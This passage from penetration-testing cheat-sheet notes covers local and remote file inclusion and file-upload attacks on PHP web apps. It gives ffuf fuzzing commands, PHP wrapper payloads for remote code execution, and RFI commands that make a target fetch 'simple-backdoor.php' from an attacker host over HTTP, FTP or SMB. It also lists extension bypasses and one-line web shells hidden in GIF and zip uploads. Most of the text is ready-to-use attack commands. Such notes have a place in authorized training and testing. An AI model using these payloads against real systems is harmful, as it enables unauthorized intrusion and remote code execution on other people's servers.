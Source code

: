 **Note:** To execute another command, the session file has to be poisoned with the web shell again, as it gets overwritten after our last inclusion

There are other similar log poisoning techniques that we may utilize on various system logs, depending on which logs we have read access over. The following are some of the service logs we may be able to read:
- `/var/log/sshd.log`
- `/var/log/mail`
- `/var/log/vsftpd.log`

**Finding vulnerable parameters to abuse:**
	`ffuf -w /opt/useful/SecLists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?FUZZ=value' -fs 2287`
	`ffuf -w /opt/useful/SecLists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=FUZZ' -fs 2287`
**Finding the full server webroot path**: 
	`ffuf -w /opt/useful/SecLists/Discovery/Web-Content/default-web-root-directory-linux.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ/index.php' -fs 2287`
**Finding Server logs/Configuration files:**
	`ffuf -w ./LFI-WordList-Linux:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ' -fs 2287`

| **PHP Wrappers**                                                                                                                | **Description**                                         |
| ------------------------------------------------------------------------------------------------------------------------------- | ------------------------------------------------------- |
| `/index.php?page=php://filter/resource=admin.php`                                                                               | Get resource                                            |
| `/index.php?page=php://filter/convert.base64-encode/resource=admin.php`                                                         | Get b64 encoded resource                                |
| `curl "http://host.com/meteor/index.php?page=data://text/plain,<?php%20echo%20system('ls');?>"`                                 | RCE through wrappers - For GET parameters               |
| `curl "http://host.com/meteor/index.php?page=data://text/plain;base64,PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbImNtZCJdKTs/Pg==&cmd=ls"` | RCE through wrappers (b64 encoded) - For GET parameters |
| `curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://<SERVER_IP>:<PORT>/index.php?language=php://input&cmd=id"`     | RCE through input wrapper - For POST parameters         |
| `curl "http://mountaindesserts.com/meteor/index.php?page=http://192.168.119.3/simple-backdoor.php&cmd=ls"`                      | RCE through RFI                                         |
| `curl -s "http://<SERVER_IP>:<PORT>/index.php?language=expect://id"`                                                            | RCE through expect wrapper                              |
If http RFI is blocked by a firewall or a WAF, we can achieve RFI with ftp or smb (if the app is hosted on a Windows server):
* FTP:
	* Start the server where the php file is located: `sudo python -m pyftpdlib -p 21`
	* Trigger the RFI: `curl "http://mountaindesserts.com/meteor/index.php?page=ftp://192.168.119.3/simple-backdoor.php&cmd=ls"`
* SMB:
	* Start the server where the php file is located: `sudo impacket-smbserver share -smb2support .`
	* Trigger the RFI: `curl "http://mountaindesserts.com/meteor/index.php?page=\\192.168.119.3\share\simple-backdoor.php&cmd=ls"`

### File Upload

**We should always check disabling Front-end validation**

> **Notes:**
> * If `.asp` or `.aspx` are allowed upload a webshell as **[p0wny shell](https://github.com/flozz/p0wny-shell)**
> * If `.php` file is not allowed try:
> 	* `.pHP`
> 	* `.phps`
> 	* `.php7`
> 	* `.phtml`
> 	* `.phar`
> * If `.gif` file is allowed upload: `echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif`
> * If `.zip` file is allowed upload: `echo '<?php system($_GET["cmd"]); ?>' > shell.php && zip shell.jpg shell.php`
> * If `.phar`wrapper is allowed upload a jpg file like this:
> 	```php
> 	shell.php